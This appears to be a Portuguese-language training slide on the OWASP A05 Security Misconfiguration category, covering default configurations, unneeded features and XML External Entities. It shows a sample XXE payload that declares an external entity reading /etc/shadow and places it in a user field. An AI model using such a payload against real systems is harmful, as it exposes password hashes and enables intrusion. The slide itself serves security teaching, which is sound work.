 # A05 - Security Misconfiguration​

- Ferramentas/frameworks são utilizados e, muitas vezes, mantidos com suas configurações básicas.
- Recursos desnecessários permanecem habilitados.
- XML External Entities (XXE) foi incluso.

<br>
<br>

<div>

```xml {all|2|5}
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
    <firstName>John</firstName>
    <lastName>&ent</lastName>
</userInfo>
```
</div>